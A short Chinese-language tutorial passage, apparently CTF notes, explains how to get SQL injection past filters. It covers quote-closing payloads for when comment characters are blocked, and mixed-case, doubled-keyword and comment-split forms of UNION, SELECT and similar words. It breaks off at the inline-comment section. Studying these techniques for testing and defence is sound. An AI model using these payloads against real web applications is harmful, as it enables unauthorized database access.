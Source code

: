 ##  绕过注释符

有时候做题的话,他会把--+,#这些全部过滤了,我们就无法使用注释符了

但是我们可以才用闭合的方式

假如一条语句的闭合方式为单引号

正常情况下语句应该是

```
id=1' union select 1,2#
```

但是当注释符被过滤了的时候就可以用如下语句代替

```
id=1' union select 1,2 or '1
```

这样来闭合后面的单引号

或者

```
id=1' union select 1,'2
```

## 绕过对union,select,or,and,where等的过滤

### 大小写绕过

```
UnIOn,SeLEcT,OR,And,WhEre
```

### 双写绕过

这种方法只针对那种检测到代码删除第一个匹配到的才可以

```
UnunionIOn,SeLselectEcT,OorR,Anandd,WhwhereEre
```

### 注释符绕过

常用注释符：

```sql
//，-- , /**/, #, --+, -- -, ;,%00,--a
```

用法：

```sql
U/**/ NION /**/ SE/**/ LECT /**/user，pwd from user
```

### 内联注释绕过
